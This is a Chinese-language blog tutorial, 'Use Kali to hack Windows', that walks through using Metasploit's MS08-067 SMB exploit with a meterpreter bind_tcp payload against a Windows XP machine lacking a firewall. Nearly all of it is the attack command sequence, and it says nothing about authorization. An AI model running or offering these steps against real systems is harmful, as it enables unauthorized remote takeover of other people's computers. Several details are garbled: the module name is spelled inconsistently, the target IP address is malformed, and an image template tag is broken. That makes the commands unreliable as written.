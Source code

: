 ```yaml
---
layout: post
title: 用kali来黑掉windows
tags: windows linux 教程
keywords: windows linux kali 教程 黑
categoty: tech
cover: 'https://www.kali.org/wp-content/uploads/2019/02/kali-release-2019-600x284.png'
---
```

### 前言
哈喽大家好。我有好久没更新博客了。  
在这段时间里，我变得非常黑。因为我在为kali做准备。  
前一段时间，我的电脑移到其他地方去了，然后我去插那边的网线，结果插上是插上了，响灯也想了，电脑上也写着连接了，有因特访问。可是，我进百度却进半天都没进去，竟然还连接超时，7456。  
然后有人看了，说是我电脑的问题，叫我装双系统。Okay，这就是我最近在为kali做准备的原因。  
  
### 准备材料
- Kali电脑一部
- 没装防火墙和360卫士或防火墙不稳定的电脑一部*这里我用xp*
  - (可选)摄像头
  - (可选)麦克风

### 01.开启Metasploit
Metasploit是一个安全渗透软件。Kali可以在终端*root*里输入:  
```bash
msfconsole
```
来打开它。
![]({{ site.imgbed }/kalihack/01.png)

### 02. 搜索Xp漏洞
也正是msf是一个安全渗透软件，所以我们可以查看漏洞。输入:
```msf
search platform:windows
```
或者是
```msf
search netapi
```
来搜索。  
之后，你会看到有一个`ms08-netapi`的漏洞，利用等级是`great`。  
使用`info *内容名*`可以来查看该内容的详细解说。
![]({{ site.imgbed }}/kalihack/02.png)

### 03.使用ms08漏洞并设置
使用该内容，输入:
```msf
use exploit/windows/smb/ms08_067netapi
```
然后你会发现提示符旁边多了个`exploit(windows/smb/ms08_067-netapi)`的东西，表示使用成功。  
我们输入:
```msf
set payload windows/meterpreter/bind_tcp
```
设置载荷。  
另外，我们要攻击Xp主机，需要先提前知道Xp的IP地址。知道后，回到你的kali前，输入:
```msf
set RHOST 192.1.104
```
这里是设定控制主机的ip地址，RHOST可以说是全写Remote Host。  
做完这些后，你就可以开始hack了！输入
```msf
exploit
```
